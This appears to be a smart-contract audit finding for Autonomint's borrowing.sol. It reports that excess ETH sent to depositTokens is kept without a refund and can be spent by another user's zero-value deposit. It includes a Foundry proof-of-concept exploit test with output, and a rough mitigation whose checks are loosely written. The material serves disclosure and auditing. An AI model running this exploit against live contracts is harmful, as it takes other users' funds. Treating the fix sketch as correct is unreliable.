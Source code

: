 Tangy Lemon Tardigrade

Medium

# Users might accidentally lose ETH, allowing an attacker to deposit without making any payment.

### Summary

In borrowing.sol

https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L226

When users deposit, the borrow contract doesn't validate the ETH paid or refund any excess.
As a result, users could lose ETH by sending more than the required deposit amount, with the borrow contract retaining the surplus.
Another user could then deposit the retained amount held by the borrow contract without making any payment.

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. User A intends to deposit 1 ETH.
2. However, by mistake, User A sends an additional 0.5 ETH on top of the 1 ETH deposit amount and the native fee.
3. After the deposit, the borrowing contract holds the extra 0.5 ETH.
4. User B then deposits an amount equal to (0.5 ETH - native fee) without sending any ETH.
5. User B's deposit is processed successfully.

### Impact

- User A will lose the excess amount sent by mistake.
- User B will deposit the amount that User A lost without sending any eth.

### PoC

```Solidity
function testDepositTest() public {
        vm.startPrank(USER);
        contractsA.usdt.mint(address(USER),5000000000);
        uint256 usdtBalance = contractsA.usdt.balanceOf(address(USER));
        contractsA.usdt.approve(address(contractsA.cds),usdtBalance);
        contractsA.cds.deposit{value:globalFee.nativeFee}(uint128(usdtBalance),0,true,uint128(usdtBalance), ETH_PRICE);

        uint beforeBalUser = address(USER).balance;
        uint beforeBalUser1 = address(USER_Attacker).balance;

        uint256  MorePaid = 0.5 ether;

        // User A sent more 0.5 eth.
        contractsB.borrow.depositTokens{value: ETH_AMOUNT  + globalFee.nativeFee + MorePaid}(
            ETH_PRICE,
            uint64(block.timestamp),
            IBorrowing.BorrowDepositParams(
                IOptions.StrikePrice.TEN,
                110000,
                ETH_VOLATILITY,
                IBorrowing.AssetName.ETH,
                ETH_AMOUNT
            )
        );

        vm.stopPrank();
        vm.startPrank(USER_Attacker);

        // borrowing contract has 0.5 eth.
        uint borrowBalance = address(contractsB.borrow).balance;

        // USER_Attacker deposit without sending any eth.
        contractsB.borrow.depositTokens{value: (0 )}(
            ETH_PRICE,
            uint64(block.timestamp),
            IBorrowing.BorrowDepositParams(
                IOptions.StrikePrice.TEN,
                110000,
                ETH_VOLATILITY,
                IBorrowing.AssetName.ETH,
                borrowBalance - globalFee.nativeFee
            )
        );
        
        console.log("----balance of user--- before deposit");
        console.log(beforeBalUser);
        console.log("----balance of user--- after deposit");
        console.log(address(USER).balance);

        
        console.log("----balance of attacker--- before deposit");
        console.log(beforeBalUser1);
        console.log("----balance of attacker--- after deposit");
        console.log(address(USER_Attacker).balance);

        console.log("----balance of borrowing--- after user A deposit");
        console.log(borrowBalance);
        console.log("----balance of borrowing--- after user Attacker deposit");
        console.log(address(contractsB.borrow).balance);

        vm.stopPrank();
    }
```


Result is 

  ----balance of user--- before deposit
  99994579496000000000
  ----balance of user--- after deposit
  98489158992000000000
  ----balance of attacker--- before deposit
  0
  ----balance of attacker--- after deposit
  0
  ----balance of borrowing--- after user A deposit
  500000000000000000
  ----balance of borrowing--- after user Attacker deposit
  0

As a result, attacker deposited with the eth that borrowing contract have.
  


### Mitigation

1. The borrowing contract must refund the excess amount retained.
2. The borrowing contract must verify that the amount sent matches the deposit amount.

In borrowing.sol

```Solidity
 function depositTokens(
        BorrowDepositParams memory depositParam
    ) external payable nonReentrant whenNotPaused(IMultiSign.Functions(0)) {
          
      + require(msg.value > depositParam.depositingAmount,"Deposit amount is not enough ");  // for suggestion 2.

      ....

      + payable(msg.sender).call{value: msg.value -  depositParam.depositingAmount - fee.nativeFee }("");  // for suggestion 1.

}
```
